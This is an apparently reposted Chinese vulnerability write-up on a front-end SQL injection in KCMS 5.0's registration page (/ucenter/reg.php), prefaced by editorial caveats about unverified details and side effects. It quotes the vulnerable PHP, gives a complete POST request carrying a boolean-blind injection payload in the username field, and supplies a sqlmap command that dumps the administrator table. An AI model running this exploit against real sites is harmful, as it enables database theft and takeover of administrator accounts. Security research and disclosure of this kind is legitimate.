


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：注册端点公开；旧PHP mysql扩展，存在测试用户名时布尔差异

- **事实待核（1）**：标题KCMS但表/数据库mkcms，产品命名需对原作者确认，目录包含版本与漏洞类型不规范。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（2）**：代码还显示email双引号拼接第二候选，正文只验证name不能均当已证。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **操作与副作用边界（3）**：仅true条件示例，需false对照；注册有写入副作用，Content-Length示例与正文长度不一致。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# KCMS5.0前台SQL注入

#### 漏洞详情： ####
漏洞出现在/ucenter/reg.php第7-19行:

    if(isset($_POST['submit'])){
    $username = stripslashes(trim($_POST['name']));
    // 检测用户名是否存在
    $query = mysql_query("select u_id from mkcms_user where u_name='$username'");
    if(mysql_fetch_array($query)){
    echo '';
    exit;
    }
    $result = mysql_query('select * from mkcms_user where u_email = "'.$_POST['email'].'"');
    if(mysql_fetch_array($result)){
    echo '';
    exit;
    }

注册用户名时$username参数传到后台后经过stripslashes()函数处理，而stripslashes()函数的作用是删除addslashes() 函数添加的反斜杠。这里就很郁闷了，过滤反斜杠干嘛？

当前页面无输出点，只是返回一个注册/未注册（通过if判断true或者false)，可以使用布尔盲注来解决这个问题

POC：

    POST /ucenter/reg.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:65.0) Gecko/20100101 Firefox/65.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/ucenter/reg.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 52
    Connection: close
    Cookie: PHPSESSID=cb8e6ccde6cf9050972fa9461d606be3
    Upgrade-Insecure-Requests: 1
    
    name=test' AND 1=1 AND 'inject'='inject&email=sss%40qq.com&password=ssssss&submit=

将POC中的数据包保存下来丢给sqlmap跑即可。

获取管理员账号：
    
    sqlmap -r inject.txt -D mkcms -T mkcms_manager --dump

### 参考链接 ###
https://xz.aliyun.com/t/4189

---

> 来源：白阁文库 BaizeSec/bylibrary
